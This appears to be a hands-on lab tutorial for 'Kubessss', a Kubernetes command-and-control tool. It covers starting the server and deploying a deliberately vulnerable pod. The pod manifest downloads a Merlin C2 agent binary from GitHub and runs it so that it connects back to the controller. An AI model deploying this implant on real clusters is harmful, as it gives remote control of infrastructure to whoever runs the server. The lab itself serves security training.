 Here we will see the basic settings of Kubessss.

## Basics of Kubessss

#### Server

	
The server is located in the `controlplane` with a configuration file `config.yaml`.    
The server uses this file to create a listener to a given protocol, interface and port.   
The server IP that should be inside the Interface is `kubectl get nodes -o jsonpath='{ $.items[?(@.metadata.name=="controlplane")].status.addresses[?(@.type=="InternalIP")].address }{"\n"}'`{{execute}}.  

Verify that the `config.yaml` file contains the server IP address: `cat config.yaml`{{execute}}

Start the server `./server`{{execute}}.    
To view the menu, run `help`{{execute}} and to see the list of modules run `use module <TAB>`.  
*You can use the `TAB` in any place to see the list commands.  

Let's continue and see examples.  


`Open`{{execute T3}}  new terminal on the master and tart this vulnerable container:  
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: priv-container
spec:
  containers:
  - name: priv-container
    image: ubuntu
    command: [ "sh", "-c", "apt update && apt install wget -y && wget https://github.com/g3rzi/katacodaScenario/releases/download/0.1/merlinAgent-Linux-x64 && chmod +x merlinAgent-Linux-x64 && ./merlinAgent-Linux-x64 -url https://$HOST_IP:443", "sleep infinity" ]
EOF```{{execute T2}}  



`echo T1`{{execute T1}}  
`echo T2`{{execute T2}}  
`echo T3`{{execute T3}}  
